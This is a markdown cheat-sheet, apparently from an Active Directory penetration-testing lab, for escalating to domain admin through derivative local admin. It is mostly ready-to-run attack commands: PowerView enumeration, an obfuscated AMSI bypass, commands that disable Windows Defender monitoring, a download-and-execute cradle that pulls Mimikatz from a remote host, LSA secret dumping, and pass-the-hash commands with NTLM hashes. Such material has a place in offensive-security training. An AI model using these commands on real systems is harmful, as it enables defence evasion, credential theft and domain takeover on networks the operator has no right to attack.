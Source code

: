 ```
```

## Derivative local admin loop
Escalate to domain admin using derivative local admin.

Get local admin and active sessions:
```
. .\PowerView.ps1
Invoke-UserHunter -CheckAccess
Find-LocalAdminAccess
```
Create PSSession and disable security:
```
$sess = New-PSSession -ComputerName dcorp-svcadmin.dollarcorp.moneycorp.local
$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
Enter-PSSession $sess
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true

exit
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession $sess
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
Use krbtgt hash to create a golden ticket.

Download/copy and invoke Mimikatz:
```
Copy-Item -Path Invoke-MimikatzEx.ps1 -Destination \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
Invoke-MimikatzEx.ps1

iex (iwr http://172.16.100.124/Tools/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz
```
From elevated shell:
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```
Loop with elevated privileges!


## Bloodhound
Use Invoke-BloodHound from SharpHound.ps1, or use SharpHound.exe. Both can be ran reflectively.
